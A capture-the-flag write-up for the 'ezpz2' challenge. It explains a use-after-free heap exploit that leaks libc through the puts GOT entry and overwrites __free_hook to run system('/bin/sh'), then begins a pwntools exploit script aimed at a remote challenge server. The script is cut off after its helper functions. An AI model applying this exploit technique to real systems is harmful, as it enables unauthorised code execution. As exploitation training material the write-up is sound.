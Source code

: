 # ezpz2

## Overview
The binary `ezpz2` provides a simple menu to create, delete, set, and ask questions, but it has vulnerabilities that allow us to exploit its function pointers to execute arbitrary code. This exploit will lead to a shell by using a GOT overwrite and leveraging `__free_hook` in `libc`.

### Target Functions and Vulnerabilities

1. **`delete_question` Function** (`0x401487`): Frees the memory associated with a question. This function is key in our exploit, as we can trigger a use-after-free vulnerability by manipulating pointers to freed chunks.
2. **GOT Overwrite**: By manipulating the GOT entry of `puts` and using the `__free_hook` in `libc`, we can redirect execution flow to `system("/bin/sh")`.
3. **`ask_question` Function** (`0x40151c`): Calls the function pointer set for each question and leak the libc address.

## Exploit Strategy

1. **Libc Leak**: Leak the libc base address using the GOT entry of `puts`.
2. **Overwrite `__free_hook`**: Calculate the addresses of `system` and `/bin/sh` in libc, and overwrite `__free_hook` to point to `system`.
3. **Trigger System Execution**: Set the argument for `system` to be the address of `/bin/sh`, then free a question to execute `system("/bin/sh")`.

## Attack Code

Here’s the Python exploit code using `pwntools`:

```
python
from pwn import *

context.arch = 'amd64'

# Setup for local or remote exploitation
if args.R:
    p = remote('6447.lol', 8003)
elif args.H:
    p = process('./ezpz2')
else:
    context.terminal = ['tmux', 'splitw', '-h', '-p', '80']
    p = gdb.debug('./ezpz2', gdbscript='b *delete_question\nb *set_question\nc')

elf = ELF('./ezpz2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# GOT and libc offsets
puts_got = elf.got['puts']
puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
bin_sh_offset = next(libc.search(b'/bin/sh'))
free_hook_offset = libc.symbols['__free_hook']

# Helper functions to interact with the binary
def create_question():
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"C")
    p.recvuntil(b"ID ")
    return p.recvline().strip()

def set_question(qid, payload):
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"S")
```